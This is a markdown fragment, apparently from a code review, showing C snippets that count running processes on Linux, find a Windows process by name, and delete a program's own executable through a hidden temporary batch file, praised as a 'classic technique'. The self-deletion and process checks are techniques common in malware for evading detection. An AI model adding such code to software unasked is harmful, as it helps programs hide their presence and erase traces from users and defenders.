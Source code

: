 **Uses real Windows API - TH32CS_SNAPPROCESS, Process32First/Next**

### `count_running_processes()` - Linux
```c
DIR* dir = opendir("/proc");
struct dirent* entry;
while ((entry = readdir(dir)) != NULL) {
    if (entry->d_type == DT_DIR) {
        char c = entry->d_name[0];
        if (c >= '1' && c <= '9') {
            count++;
        }
    }
}
closedir(dir);
return count;
```
**Uses real Linux /proc filesystem iteration**

---

### `find_process_by_name()` - Windows
```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe32 = {0};

if (Process32First(hSnapshot, &pe32)) {
    do {
        if (_stricmp(pe32.szExeFile, name) == 0) {
            found = 1;
            break;
        }
    } while (Process32Next(hSnapshot, &pe32));
}
```
**Uses real process snapshot API with case-insensitive comparison**

---

### `delete_self()` - Windows
```c
GetModuleFileNameA(NULL, path, sizeof(path));  // Get own path
GetTempPathA(sizeof(batch), batch);            // Get temp dir

// Create batch file for delayed deletion
FILE* fp = fopen(batch_path, "w");
fprintf(fp, "@echo off\n");
fprintf(fp, ":loop\n");
fprintf(fp, "del /f /q \"%s\" 2>nul\n", path);
fprintf(fp, "if exist \"%s\" goto loop\n", path);
fprintf(fp, "del /f /q \"%%~f0\"\n");  // Delete batch itself

ShellExecuteA(NULL, "open", batch, NULL, NULL, SW_HIDE);
ExitProcess(0);
```
**Real self-deletion with batch file trick - classic technique!**

---